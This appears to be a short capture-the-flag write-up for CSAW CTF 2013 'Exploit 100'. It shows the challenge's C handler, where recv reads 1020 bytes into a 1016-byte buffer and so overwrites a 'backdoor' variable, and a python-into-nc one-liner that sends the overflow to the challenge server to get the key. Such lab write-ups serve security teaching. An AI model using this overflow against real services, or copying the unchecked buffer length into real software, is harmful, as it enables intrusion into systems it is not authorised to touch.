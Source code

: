 ```yaml
---
layout: post
title:  "CSAW CTF 2013 - Exploit 100"
---
```


foo
Source for exploit 100 were provided:

``` C

void handle(int newsock) {
    int backdoor = 0;
	char buffer[1016];
	memset(buffer, 0, 1016);

	send(newsock, "Welcome to CSAW CTF.", 21, 0);
	recv(newsock, buffer, 1020, 0);
	buffer[1015] = 0;

	if ( backdoor ) {
		fd = fopen("./key", "r");
		fscanf(fd, "%s\n", buffer);
		send(newsock, buffer, 512, 0);
	}
	close(newsock);
}

```

To print the key, we need to set `backdoor` to something else than `0`. This can be done by a simple buffer overflow. the `recv` function read 1020 bytes into a buffer of 1016 bytes. The 4 extra bytes are going to overwrite the `backdoor`'s value.

To get the key:
`python -c "print '\xff' * 1020" | nc 128.238.66.212 31337`

